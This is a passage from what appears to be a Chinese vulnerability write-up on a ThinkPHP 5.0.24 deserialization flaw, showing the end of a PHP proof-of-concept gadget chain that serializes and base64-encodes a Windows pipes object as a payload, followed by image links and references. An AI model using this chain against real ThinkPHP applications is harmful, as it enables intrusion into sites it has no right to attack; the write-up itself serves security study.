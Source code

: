             'cache_subdir'  => false,
            'prefix'        => '',
            'path'          => './demo/',
            'data_compress' => false,
            ];
            $this->tag = true;
        }
    }

    namespace think\model;
    use think\Model;
    class Pivot extends Model{


    }
    use think\process\pipes\Windows;
    echo base64_encode(serialize(new Windows()));

![](./.resource/Thinkphp5.0.24反序列化漏洞/media/rId29.jpg)

![](./.resource/Thinkphp5.0.24反序列化漏洞/media/rId30.jpg)

参考链接
--------

> http://althims.com/2020/02/07/thinkphp-5-0-24-unserialize/
>
> http://pines404.online/2020/01/20/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/ThinkPHP/ThinkPHP5.0.24%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E9%93%BE%E5%88%86%E6%9E%90/
>
> https://xz.aliyun.com/t/7082
